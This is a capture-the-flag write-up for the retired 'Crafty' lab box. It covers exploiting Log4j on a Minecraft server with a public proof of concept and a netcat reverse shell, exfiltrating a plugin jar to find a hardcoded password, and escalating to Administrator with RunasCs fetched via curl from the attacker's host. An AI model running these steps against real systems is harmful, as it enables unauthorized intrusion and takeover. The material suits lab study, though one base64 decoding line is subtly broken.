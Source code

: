 ```yaml
---
title: "Crafty Write-Up"
date: 2025-07-06T22:05:42-05:00
draft: false
author: Jarpiano
tags:
    - WriteUp
image: /images/crafty-banner.png
description:
toc:
center: true
---
```

# Crafty (Easy) Box
Overall a very fun box. Crafty is a retired box that explores a Log4j vulnerability present in a 1.16.16 Minecraft Server.

## Initial Foothold
Reading the description, the box has a pre-auth Log4j vulnerability. But before going into that, we should scan the ports.
`sudo nmap <IP> -sS -Pn -n --disable-arp -p-`
It looks like there are two ports open: port 80 and port 25565.
Doing a quick version scan `(nmap <IP> -sV -sC <PORT>)` shows us that the target is running on a windows machine with a website on 80 and a Minecraft Server Version 1.16.5 on port 25565. First we'll check out port 80. A quick `ffuf` command leaves us with a few hits that aren't worth much. There doesn't seem to be a attack vector for Log4j either as there aren't any login parameters and attempting to exploit the HTTP Headers with some Metasploit modules didn't work.
Curling the IP with port 25565 gives us a `Non-HTTP Response` as expected.

Alright, before exploiting the server. Let's download [TLauncher](https://tlauncher.org/en/) to set up a foothold on the server. After downloading the zip folder (assuming we're on Linux), we an unzip it and using the

```
java -jar TLauncher.jar
```


Fill in the username section with something arbitrary and for the version, since we know it's a 1.16.5 server, we should select that and install. Once installed, we can launch Minecraft. On `Multiplayer`, we can add a server using our IP or use a direct connection. Now we're in!

Alright, there's a POC available on GitHub for the Log4j vulnerability from [kozmer](https://github.com/kozmer/log4j-shell-poc). We can clone this using `git clone https://github.com/kozmer/log4j-shell-poc.git`. The README asks us to download a very specific version of Java. After downloading and moving it to our folder, unzip it. 
```
python3 poc.py --userip <OUR IP> --webport 8000 --lport 9001
```
Next we can set up a `nc` listener using `nc -lvnp 9001`.

Let's go back to Minecraft, type `T` to access the chat and type our POC's `${.../a}` payload. It didn't work.

An initial run of the code above doesn't work. Let's take a peek into poc.py. We can see here that the POC is trying to run the Linux command `/bin/sh`; however, since we're on a Windows machine, we need to use a Windows CLI. Let's replace it with `cmd.exe`. 

Redoing the steps above shows us that the exploit worked. We can find our flag in the Desktop folder of the `svc_minecraft` user.

## Privilege Escalation
The description for the box tells us that there's an exposed credential in a plugin. Our server folder has one plugin named `playercounter*.jar`. We can't do much with it here so let's convert it into base64 and transfer it back to our machine. We can do so with:
```powershell
[Convert]::ToBase64String((Get-Content -path "<PATH>" -Encoding byte))
```
Copy and paste the string to a file in our machine. Then we can turn it back to a `.jar` file using:
```bash
cat <file> | tr -d "\n" | base64 -d | playercounter.jar
```
We can "unzip" the jar file by doing `jar xf playercounter.jar`. And we can inspect files from there. Following the `htb` folder down to the last leaf, we can see a `PlayerCounter.class` file. To extract strings we can either use the `strings` command or use `javap` for some clean output. Let's use the latter:
``` shell
javap -c PlayerCounter.class
```
Alright, we can see here that just below the 127.0.0.1 address, there's a defined String with a suspicious value. Let's try to use that.

Back on our reverse shell, we can use the RunAs command, but, unfortunately, I couldn't get the password prompt to work. An alternative is the [RunasCS.exe](https://github.com/antonioCoco/RunasCs) free to download on GitHub. We can't connect to non-VPN tunneled traffic on the machine, so we'll download first on our host. We can then setup a Python server and curl our server from the target:
```shell
python3 -m http.server 4444
```
```shell target
curl <IP>:<PORT>/RunasCS.exe -o RunasCS.exe
```
If the standalone file doesn't work, we can curl the zip folder instead and use `Expand-Archive` in PowerShell to extract the files. Before execution, let's make the the execution policy is set to process.

```PowerShell
Set-ExecutionPolicy Bypass -Process Scope
```

We now can execute:
```powershell
./RunasCS.exe Administrator <PASSWORD> "cmd /c whoami"
```
We should see as our output:
```powershell
crafty/Administrator
```
To get the flag we can execute the same command, replacing the CMD with `type <flag location>.`

Happy Hunting!

**Fin.**